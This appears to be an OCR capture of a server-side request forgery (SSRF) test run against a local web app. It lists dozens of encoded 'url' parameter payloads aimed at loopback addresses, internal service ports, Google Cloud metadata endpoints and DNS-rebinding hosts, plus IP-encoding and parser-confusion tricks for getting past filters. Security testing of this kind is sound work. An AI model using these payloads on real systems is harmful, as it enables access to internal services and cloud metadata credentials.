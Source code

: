 - Testing: `http://localhost:4200/?url=localhost%3A8000`
- Testing: `http://localhost:4200/?url=localhost%3A8001`
- Testing: `http://localhost:4200/?url=localhost%3A8444`
- Testing: `http://localhost:4200/?url=localhost%3A9901`
- Testing: `http://localhost:4200/?url=localhost.localdomain`
- Testing: `http://localhost:4200/?url=loopback`
- Testing: `http://localhost:4200/?url=loopback%3A22`
- Testing: `http://localhost:4200/?url=loopback%3A80`
- Testing: `http://localhost:4200/?url=loopback%3A443`
- Testing: `http://localhost:4200/?url=loopback%3A3389`
- Testing: `http://localhost:4200/?url=loopback%3A8000`
- Testing: `http://localhost:4200/?url=loopback%3A9901`
- Testing: `http://localhost:4200/?url=loopback%3A8001`
- Testing: `http://localhost:4200/?url=loopback%3A8444`
- Testing: `http://localhost:4200/?url=ipcop.localdomain%3A8443`
- Testing: `http://localhost:4200/?url=metadata.google.internal%2FcomputeMetadata%2Fv1%2F`
- Testing: `http://localhost:4200/?url=metadata.google.internal%2FcomputeMetadata%2Fv1%2Finstance%2Fhostname`
- Testing: `http://localhost:4200/?url=metadata.google.internal%2FcomputeMetadata%2Fv1%2Finstance%2Fid`
- Testing: `http://localhost:4200/?url=metadata.google.internal%2FcomputeMetadata%2Fv1%2Fproject%2Fproject-id`
- Testing: `http://localhost:4200/?url=metadata.nicob.net`
- Testing: `http://localhost:4200/?url=owasp.org.169.254.169.254.nip.io`
- Testing: `http://localhost:4200/?url=ssrf-169.254.169.254.localdomain.pw`
- Testing: `http://localhost:4200/?url=ssrf-cloud.localdomain.pw`
- Testing: `http://localhost:4200/?url=www.owasp.org.1ynrnhl.xip.io`
- Testing: `http://localhost:4200/?url=127.1%3A80`
- Testing: `http://localhost:4200/?url=%5B%3A%3A%5D%3A80%2F`
- Testing: `http://localhost:4200/?url=%5B%3A%3A%5D%3A25%2F%20SMTP`
- Testing: `http://localhost:4200/?url=%5B%3A%3A%5D%3A3128%2F%20Squid`
- Testing: `http://localhost:4200/?url=%5B0000%3A%3A1%5D%3A80%2F`
- Testing: `http://localhost:4200/?url=%5B0%3A0%3A0%3A0%3A0%3Affff%3A127.0.0.1%5D%2Fthefile`
- Testing: `http://localhost:4200/?url=%E2%91%A0%E2%91%A1%E2%91%A6.%E2%93%AA.%E2%93%AA.%E2%93%AA`
- Testing: `http://localhost:4200/?url=2130706433%2F`
- Testing: `http://localhost:4200/?url=3232235521%2F`
- Testing: `http://localhost:4200/?url=3232235777%2F`
- Testing: `http://localhost:4200/?url=0x7f000001%2F`
- Testing: `http://localhost:4200/?url=0xc0a80014%2F`
- Testing: `http://localhost:4200/?url=%7Bdomain%7D%40127.0.0.1`
- Testing: `http://localhost:4200/?url=127.0.0.1%23%7Bdomain%7D`
- Testing: `http://localhost:4200/?url=%7Bdomain%7D.127.0.0.1`
- Testing: `http://localhost:4200/?url=127.0.0.1%2F%7Bdomain%7D`
- Testing: `http://localhost:4200/?url=127.0.0.1%2F%3Fd%3D%7Bdomain%7D`
- Testing: `http://localhost:4200/?url=%7Bdomain%7D%40localhost`
- Testing: `http://localhost:4200/?url=localhost%23%7Bdomain%7D`
- Testing: `http://localhost:4200/?url=%7Bdomain%7D.localhost`
- Testing: `http://localhost:4200/?url=localhost%2F%7Bdomain%7D`
- Testing: `http://localhost:4200/?url=localhost%2F%3Fd%3D%7Bdomain%7D`
- Testing: `http://localhost:4200/?url=127.0.0.1%2500%7Bdomain%7D`
- Testing: `http://localhost:4200/?url=127.0.0.1%3F%7Bdomain%7D`
- Testing: `http://localhost:4200/?url=127.0.0.1%2F%2F%2F%7Bdomain%7D`
- Testing: `http://localhost:4200/?url=127.0.0.1%2F%2F%2F%7Bdomain%7Dst%3A%2B11211aaa`
- Testing: `http://localhost:4200/?url=st%3A00011211aaaa`
- Testing: `http://localhost:4200/?url=0%2F`
- Testing: `http://localhost:4200/?url=1.1.1.1%20%26%402.2.2.2%23%20%403.3.3.3%2F`
- Testing: `http://localhost:4200/?url=127.1.1.1%3A80%5C%5C%40127.2.2.2%3A80%2F`
- Testing: `http://localhost:4200/?url=127.1.1.1%3A80%5C%5C%40%40127.2.2.2%3A80%2F`
- Testing: `http://localhost:4200/?url=127.1.1.1%3A80%3A%5C%5C%40%40127.2.2.2%3A80%2F`
- Testing: `http://localhost:4200/?url=127.1.1.1%3A80%23%5C%5C%40127.2.2.2%3A80%2F`
## Testing endpoint: http://localhost:4200/api/admin/overseer_images